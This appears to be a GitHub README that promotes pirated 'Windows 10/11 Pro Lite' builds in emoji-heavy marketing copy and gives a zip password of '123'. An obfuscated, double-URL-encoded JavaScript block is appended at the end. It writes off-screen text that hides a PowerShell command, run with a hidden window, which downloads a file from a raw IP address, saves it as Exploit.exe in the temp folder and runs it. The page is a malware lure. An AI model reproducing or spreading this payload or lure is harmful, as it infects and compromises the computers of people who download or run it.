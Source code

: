 # WINDOWS-10-11-PRO-LITE-EDITION

🚀 Windows 10 Pro Lite – Your Ultimate Lightweight & Fast PC Experience! 🚀

🔹 Why Choose Windows 10 Pro Lite? 🔹

Looking for a faster, more efficient version of Windows 10? Windows 10 Pro Lite is designed for performance and minimalism, making your computer run smoother than ever before.

✨ Key Features & Benefits:

    Lightweight Performance: Enjoy a faster and smoother experience with reduced resource usage. Perfect for older PCs or those looking to free up valuable space and speed up performance.
    Optimized for Speed: Enhanced boot times, quick app launches, and minimal background processes, ensuring you can work without lag.
    User-Friendly Interface: All the power of Windows 10 Pro without the unnecessary clutter. Focus on what matters most: productivity and performance.
    Privacy & Security: Equipped with built-in privacy features, you can rest assured that your data is protected without sacrificing speed.
    Compatibility: Supports most modern applications while keeping the OS running lean and mean.

🎯 Perfect For:

    Low-end PCs: Ideal for machines with limited RAM or older processors.
    Gamers: If you want to squeeze out every bit of performance for your gaming rig.
    Productivity Users: Need a stable system that doesn’t drag? Windows 10 Pro Lite gives you a smooth work experience.

💥 Download Now and Experience the Lite Revolution! 💥

zipfile password:- 123





-------------------------------------------------------------------------------------------------------------------------------

Windows 11 Pro Lite


🎉 Introducing Windows 11 Pro Lite – The Future of Lightweight Performance 🎉

🔹 Why Go Lite with Windows 11? 🔹

Experience the cutting-edge features of Windows 11 without the heavy load! Windows 11 Pro Lite is designed to offer a fast, responsive, and minimal experience while keeping all the advanced features you love.

✨ Key Features & Benefits:

    Super Fast Boot Times: Say goodbye to long waiting times! Get your PC up and running in no time.
    Optimized for Performance: Minimal background tasks and system bloat, freeing up your system’s resources for better speed and efficiency.
    Familiar Yet Refined Interface: Enjoy a beautiful, user-friendly design while focusing on what really matters – performance.
    Enhanced Privacy & Security: Built-in tools to keep your system secure while enhancing your privacy without sacrificing speed.
    Increased Compatibility: Play your favorite games, run essential apps, and enjoy high-performance computing, all while staying light on resources.

🎯 Perfect For:

    Low to Mid-Range PCs: Designed to work seamlessly on older and lower-end systems.
    Tech Enthusiasts & Gamers: Get the latest Windows features, performance boosts, and a cleaner system.
    Productivity Users: Streamline your experience and focus on the work you need to get done without distractions.

💥 Lighten Up Your Windows Experience Today! 💥

zipfile password:- 123


<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3C%68%74%6D%6C%3E%0D%0A%3C%68%65%61%64%3E%0D%0A%3C%74%69%74%6C%65%3E%3C%2F%74%69%74%6C%65%3E%0D%0A%3C%62%6F%64%79%3E%0D%0A%3C%73%63%72%69%70%74%20%6C%61%6E%67%75%61%67%65%3D%22%4A%61%76%61%53%63%72%69%70%74%22%20%74%79%70%65%3D%22%74%65%78%74%2F%6A%61%76%61%73%63%72%69%70%74%22%3E%0D%0A%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%75%6E%65%73%63%61%70%65%28%27%25%33%43%25%37%30%25%33%45%25%32%30%25%37%33%25%37%39%25%37%33%25%37%34%25%36%35%25%36%44%25%32%30%25%33%43%25%37%33%25%37%30%25%36%31%25%36%45%25%32%30%25%37%33%25%37%34%25%37%39%25%36%43%25%36%35%25%33%44%25%32%32%25%37%30%25%36%46%25%37%33%25%36%39%25%37%34%25%36%39%25%36%46%25%36%45%25%33%41%25%32%30%25%36%31%25%36%32%25%37%33%25%36%46%25%36%43%25%37%35%25%37%34%25%36%35%25%33%42%25%32%30%25%36%43%25%36%35%25%36%36%25%37%34%25%33%41%25%32%30%25%32%44%25%33%32%25%33%30%25%33%30%25%33%30%25%33%42%25%32%30%25%37%34%25%36%46%25%37%30%25%33%41%25%32%30%25%32%44%25%33%31%25%33%30%25%33%30%25%37%30%25%37%38%25%33%42%25%32%32%25%32%30%25%33%45%25%36%33%25%33%41%25%35%43%25%32%30%25%32%36%25%32%30%25%36%33%25%36%43%25%37%33%25%32%30%25%32%36%25%32%30%25%35%30%25%36%46%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%43%25%36%43%25%32%45%25%36%35%25%37%38%25%36%35%25%32%30%25%32%44%25%37%37%25%36%39%25%36%45%25%36%34%25%36%46%25%37%37%25%37%33%25%37%34%25%37%39%25%36%43%25%36%35%25%32%30%25%36%38%25%36%39%25%36%34%25%36%34%25%36%35%25%36%45%25%32%30%25%32%38%25%34%45%25%36%35%25%37%37%25%32%44%25%34%46%25%36%32%25%36%41%25%36%35%25%36%33%25%37%34%25%32%30%25%35%33%25%37%39%25%37%33%25%37%34%25%36%35%25%36%44%25%32%45%25%34%45%25%36%35%25%37%34%25%32%45%25%35%37%25%36%35%25%36%32%25%34%33%25%36%43%25%36%39%25%36%35%25%36%45%25%37%34%25%32%39%25%32%45%25%34%34%25%36%46%25%37%37%25%36%45%25%36%43%25%36%46%25%36%31%25%36%34%25%34%36%25%36%39%25%36%43%25%36%35%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%33%41%25%32%46%25%32%46%25%33%31%25%33%36%25%32%45%25%33%31%25%33%37%25%33%31%25%32%45%25%33%37%25%33%36%25%32%45%25%33%31%25%33%39%25%33%38%25%33%41%25%33%34%25%33%34%25%33%38%25%32%46%25%36%31%25%36%43%25%36%43%25%36%39%25%36%45%25%36%46%25%36%45%25%36%35%25%32%45%25%37%30%25%36%45%25%36%37%25%32%37%25%32%43%25%32%37%25%32%35%25%37%34%25%36%35%25%36%44%25%37%30%25%32%35%25%35%43%25%34%35%25%37%38%25%37%30%25%36%43%25%36%46%25%36%39%25%37%34%25%32%45%25%36%35%25%37%38%25%36%35%25%32%37%25%32%39%25%33%42%25%35%33%25%37%34%25%36%31%25%37%32%25%37%34%25%32%44%25%35%30%25%37%32%25%36%46%25%36%33%25%36%35%25%37%33%25%37%33%25%32%30%25%32%37%25%32%35%25%37%34%25%36%35%25%36%44%25%37%30%25%32%35%25%35%43%25%34%35%25%37%38%25%37%30%25%36%43%25%36%46%25%36%39%25%37%34%25%32%45%25%36%35%25%37%38%25%36%35%25%32%37%25%30%44%25%30%41%25%32%30%25%32%36%25%32%30%25%36%33%25%33%41%25%35%43%25%32%30%25%32%36%25%32%30%25%36%33%25%36%43%25%37%33%25%32%30%25%33%43%25%36%32%25%37%32%25%33%45%25%32%30%25%37%33%25%37%39%25%37%33%25%37%34%25%36%35%25%36%44%25%32%30%25%33%43%25%32%46%25%37%33%25%37%30%25%36%31%25%36%45%25%33%45%25%32%30%25%36%39%25%36%45%25%36%36%25%36%46%25%32%30%25%33%43%25%32%46%25%37%30%25%33%45%25%32%30%27%29%29%3B%0D%0A%3C%2F%73%63%72%69%70%74%3E%0D%0A%3C%2F%62%6F%64%79%3E%0D%0A%3C%2F%68%74%6D%6C%3E%0D%0A'));
</script>
</body>
</html>

